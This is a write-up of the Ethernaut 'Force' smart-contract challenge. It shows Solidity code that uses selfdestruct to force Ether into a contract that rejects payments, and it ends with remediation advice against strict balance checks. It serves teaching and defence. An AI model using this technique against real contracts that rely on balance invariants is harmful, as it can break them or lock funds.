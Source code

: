 ![Force](/assets/img/BigLevel7.svg)

- [Challenge](#challenge)
- [Solution](#solution)
- [Remediation](#remediation)
- [References](#references)
   
# Challenge

The level says:

> Some contracts will simply not take your money ¯\_(ツ)_/¯
>
>The goal of this level is to make the balance of the contract greater than zero.
>
>  Things that might help:
>
> - Fallback methods
> - Sometimes the best way to attack a contract is with another contract.
> - See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"

And gives the following contract's "code":

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

# Solution

We would normally start by reading the code, but this time, the contract has no code!

The level states that, in order to win, we have to make the contract's balance greater than zero. We could try some functions like `transfer()`, `send()`, `call()` like this:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract SendEther {
    function sendViaTransfer(address payable _to) public payable {
        // This function is no longer recommended for sending Ether.
        _to.transfer(msg.value);
    }

    function sendViaSend(address payable _to) public payable {
        // Send returns a boolean value indicating success or failure.
        // This function is not recommended for sending Ether.
        bool sent = _to.send(msg.value);
        require(sent, "Failed to send Ether");
    }

    function sendViaCall(address payable _to) public payable {
        // Call returns a boolean value indicating success or failure.
        // This is the current recommended method to use.
        (bool sent, bytes memory data) = _to.call{value: msg.value}("");
        require(sent, "Failed to send Ether");
    }
}
```

The target contract has no `fallback()` defined. After trying to send ETH to the Force contract with these functions, we will notice that all of them are going to be reverted... 

Having an empty contract would be the equivalent of this:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract RevertFallback {

    fallback() external payable {
        revert () ; 
    }  
}
```

If all transactions are going to be reverted, then how can we send ETH to the contract to increment its balance?

Well there is a function called `selfdestruct()`:

> `selfdestruct(address)` is a feature of Ethereum using which you can kill a smart contract and transfer the contract Ether to any address passed as parameter. So this is also way using which on can force ether to a contract without triggering the fallback function.

Then, let's create a contract that self destructs sending its balance to the `Force` contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Solver {

    constructor() payable {
    }

    function solve(address payable _to) public {
        selfdestruct(_to);
    }  
}
```

We make the constructor payable in order to send some ETH to the contract at deployment. Then we call the function `solve()` with the level's contract address as input to send the balance of the `Solver` contract to the target.

Now if we call
```javascript
await getBalance(contract.address)
'0.000000000000000001'
```
we can see that we incremented the balance of the target, thus, solving the level!!! :)

![Well done](/assets/img/ethernaut_solved.png)

*Note: by calling `selfdestruct()` to send ETH to a contract, keep in mind that if we send money to a contract that has no `withdraw()` function nor any other function to transfer the funds, those ETHs are going to be lost forever. So, NEVER EVER do this on the mainnet with real money*

# Remediation

> Contracts can behave erroneously when they strictly assume a specific Ether balance. It is always possible to forcibly send ether to a contract (without triggering its fallback function), using `selfdestruct`, or by mining to the account. In the worst case scenario this could lead to DOS conditions that might render the contract unusable.

- Avoid strict equality checks for the Ether balance in a contract.
- Not to count on the invariant `address(this).balance == 0` for any contract logic.

# References

- [SWC-132](https://swcregistry.io/docs/SWC-132)
- [Sending Ether (transfer, send, call)](https://solidity-by-example.org/sending-ether/)
- [Ways to send ETH to a contract having `throw` in fallback function](https://aniketengg.medium.com/ways-to-send-eth-to-a-contract-having-throw-in-fallback-function-41765db796de#:~:text=Using%20selfdestruct(address),without%20triggering%20the%20fallback%20function.)
